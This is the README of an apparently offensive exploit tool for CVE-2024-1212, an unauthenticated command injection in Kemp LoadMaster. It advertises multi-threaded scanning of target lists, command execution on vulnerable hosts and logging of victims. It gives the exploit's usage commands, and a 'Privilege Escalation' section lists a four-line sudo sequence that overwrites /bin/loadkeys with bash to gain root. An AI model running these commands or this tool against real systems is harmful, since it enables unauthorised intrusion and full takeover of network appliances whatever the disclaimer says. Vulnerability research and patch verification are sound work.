 # CVE-2024-1212 Command Injection Exploit for Kemp LoadMaster 🛡️🔓

This Python script is designed as a proof of concept (PoC) to demonstrate an unauthenticated command injection vulnerability in Kemp LoadMaster, identified as CVE-2024-1212. 

## Features 🌟

- Scan a single target or multiple targets for the CVE-2024-1212 vulnerability.
- Execute commands on vulnerable targets.
- Utilize multi-threading for faster scanning of multiple targets.
- Save vulnerable targets to an output file for further analysis.

## Usage 🚀

To use this script, Python 3 must be installed on your system. You can execute the script in the terminal or command prompt as follows:

```bash
python exploit.py --url "http://target-url.com"
```

To scan multiple targets from a file:

```bash
python exploit.py -f targets.txt -o vulnerable.txt -t 50
```

### Options

- `-u`, `--url`: Specify a target URL for command injection.
- `-f`, `--file`: Specify a file containing target URLs to scan.
- `-o`, `--output`: Specify an output file for saving scan results.
- `-t`, `--threads`: Specify the number of threads to use for scanning.

## Disclaimer ⚠️

This tool is provided for educational purposes only and is designed to help security professionals test the vulnerability of their own systems. Unauthorized testing on systems that you do not have explicit permission to test is illegal and unethical. Use this tool responsibly.

## Privilege Escalation 🛡️

Once a shell has been obtained, privilege escalation can be achieved by following these commands as per the researcher's guidance:

```bash
sudo /bin/cp /bin/loadkeys /tmp/loadkeys
sudo /bin/cp /bin/bash /bin/loadkeys
sudo /bin/loadkeys -c /bin/bash
cp /tmp/loadkeys /bin/loadkeys
```

## Resources 📚

This PoC was inspired by research from Rhino Security Labs. For more detailed information about CVE-2024-1212 and its implications, please visit [their research page](https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster/?utm_content=286496380&utm_medium=social&utm_source=twitter&hss_channel=tw-1184539364).
